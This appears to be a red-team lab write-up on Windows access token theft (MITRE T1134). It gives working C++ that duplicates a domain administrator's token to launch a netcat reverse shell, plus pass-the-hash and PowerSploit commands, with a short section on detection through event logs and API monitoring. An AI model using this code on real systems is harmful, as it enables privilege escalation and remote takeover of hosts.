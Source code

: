 ```yaml
---
description: >-
  Defense Evasion, Privilege Escalation by stealing an re-using security access
  tokens.
---
```


# T1134: Primary Access Token Manipulation

## Context

One of the techniques of token manipulation is creating a new process with a token "stolen" from another process. This is when a token of an already existing access token present in one of the running processes on the victim host, is retrieved, duplicated and then used for creating a new process, making the new process assume the privileges of that stolen token.

A high level process of the token stealing that will be carried out in this lab is as follows:

| Step | Win32 API |
| :--- | :--- |
| Open a process with access token you want to steal | `OpenProcess` |
| Get a handle to the access token of that process | `OpenProcesToken` |
| Make a duplicate of the access token present in that process | `DuplicateTokenEx` |
| Create a new process with the newly aquired access token | `CreateProcessWithTokenW` |

## Weaponization

Below is the C++ code implementing the above process. Note the variable `PID_TO_IMPERSONATE` that has a value of `3060` This is a process ID that we want to impersonate/steal the token from, since it is running as a domain admin and makes it for a good target:

![A victim cmd.exe process that is running under the context of DC admin offense\administrator](../../.gitbook/assets/tokens-victim-3060.png)

Note the line 16, which specifies the executable that should be launched with an impersonated token, which in our case effectively is a simple netcat reverse shell calling back to the attacking system:

![](../../.gitbook/assets/tokens-shell-c++.png)

This is the code if you want to compile and try it yourself:

{% code title="tokens.cpp" %}
```cpp
#include "stdafx.h"
#include <windows.h>
#include <iostream>

int main(int argc, char * argv[]) {
    char a;
    HANDLE processHandle;
    HANDLE tokenHandle = NULL;
    HANDLE duplicateTokenHandle = NULL;
    STARTUPINFO startupInfo;
    PROCESS_INFORMATION processInformation;
    DWORD PID_TO_IMPERSONATE = 3060;
    wchar_t cmdline[] = L"C:\\shell.cmd";
    ZeroMemory(&startupInfo, sizeof(STARTUPINFO));
    ZeroMemory(&processInformation, sizeof(PROCESS_INFORMATION));
    startupInfo.cb = sizeof(STARTUPINFO);    

    processHandle = OpenProcess(PROCESS_ALL_ACCESS, true, PID_TO_IMPERSONATE);
    OpenProcessToken(processHandle, TOKEN_ALL_ACCESS, &tokenHandle);
    DuplicateTokenEx(tokenHandle, TOKEN_ALL_ACCESS, NULL, SecurityImpersonation, TokenPrimary, &duplicateTokenHandle);            
    CreateProcessWithTokenW(duplicateTokenHandle, LOGON_WITH_PROFILE, NULL, cmdline, 0, NULL, NULL, &startupInfo, &processInformation);

    std::cin >> a;
    return 0;
}
```
{% endcode %}

## Execution

Launching `Tokens.exe` from the powershell console spawns a reverse shell that the attacker catches. Note how the `powershell.exe` - the parent process of `Tokens.exe` and `Tokens.exe` itself are running under `PC-Mantvydas\mantvydas`, but the newly spawned shell is running under `OFFENSE\Administrator` - this is because of the successful token theft:

![](../../.gitbook/assets/token-shell-impersonated.png)

The logon for OFFESNE\administrator in the above test was of logon type 2 \(interactive logon, meaning I launched a new process on the victim system using a `runas /user:administrator@offense cmd` command\).

Another quick test that I wanted to do was a theft of an access token that was present in the system due to a network logon \(i.e psexec, winexec, pth-winexe, etc\), so I spawned a cmd shell remotely from the attacking machine to the victim machine using:

{% code title="attacker@local" %}
```text
pth-winexe //10.0.0.2 -U offense/administrator%pass cmd
```
{% endcode %}

which created a new process on the victim system with a PID of 4780:

![](../../.gitbook/assets/tokens-winexe.png)

Enumerating all the access tokens on the victim system with PowerSploit:

```csharp
Invoke-TokenManipulation -ShowAll | ft -Wrap -Property domain,username,tokentype,logontype,processid
```

...gives the below. Note the available token \(highlighted\) - it is the cmd.exe from above screenshot and its logon type is as expected - 3 - a network logon:

![](../../.gitbook/assets/tokens-all.png)

This token again can be stolen the same way we did it earlier. Let's change the PID in `Tokens.cpp` of the process we want to impersonate to `4780`:

![](../../.gitbook/assets/tokens-new-pid.png)

Running the compiled code invokes a new process with the newly stolen token:

![](../../.gitbook/assets/tokens-new-shell.png)

note the cmd.exe has a PID 5188 - if we rerun the `Invoke-TokenManipulation`, we can see the new process is using the access token with logon type 3:

![](../../.gitbook/assets/token-new-logon-3-1.png)

## Observations

Imagine you were investigating the host we stole the tokens from, because it exhibited some anomalous behaviour. In this particularly contrived example, since `Tokens.exe` was written to the disk on the victim system, you could have a quick look at its dissasembly and conclude it is attempting to manipulate access tokens - note that we can see the victim process PID and the CMDLINE arguments:

![](../../.gitbook/assets/token-disasm.png)

As suggested by the above, you should think about API monitoring if you want to detect these token manipulations on endpoints, but beware - this can be quite noisy.

Windows event logs of IDs `4672` and `4674` may be helpful for you as a defender also - below shows a network logon of a `pth-winexe //10.0.0.2 -U offense/administrator%pass cmd` and then later, a netcat reverse shell originating from the same logon session:

![](../../.gitbook/assets/token-logs.png)

## References

{% embed url="https://attack.mitre.org/wiki/Technique/T1134" caption="" %}

{% embed url="https://digital-forensics.sans.org/blog/2012/03/21/protecting-privileged-domain-accounts-access-tokens" caption="" %}

{% embed url="https://docs.microsoft.com/en-us/windows/desktop/SecGloss/p-gly\#-security-primary-token-gly" caption="" %}

{% embed url="https://technet.microsoft.com/pt-pt/library/cc783557%28v=ws.10%29.aspx?f=255&MSPPError=-2147217396" caption="" %}

{% embed url="https://docs.microsoft.com/en-us/windows/desktop/secauthz/access-tokens" caption="" %}

{% embed url="https://clymb3r.wordpress.com/2013/11/03/powershell-and-token-impersonation/" caption="" %}

{% embed url="https://msdn.microsoft.com/en-us/library/windows/desktop/aa446671\(v=vs.85\).aspx" caption="" %}

{% embed url="https://docs.microsoft.com/en-us/windows/desktop/api/winbase/nf-winbase-createprocesswithtokenw" caption="" %}

{% embed url="https://msdn.microsoft.com/en-us/library/windows/desktop/aa446617\(v=vs.85\).aspx" caption="" %}

{% embed url="https://www.youtube.com/watch?v=Ed\_2BKn3QR8" caption="" %}

[https://www.blackhat.com/docs/eu-17/materials/eu-17-Atkinson-A-Process-Is-No-One-Hunting-For-Token-Manipulation.pdf](https://www.blackhat.com/docs/eu-17/materials/eu-17-Atkinson-A-Process-Is-No-One-Hunting-For-Token-Manipulation.pdf)

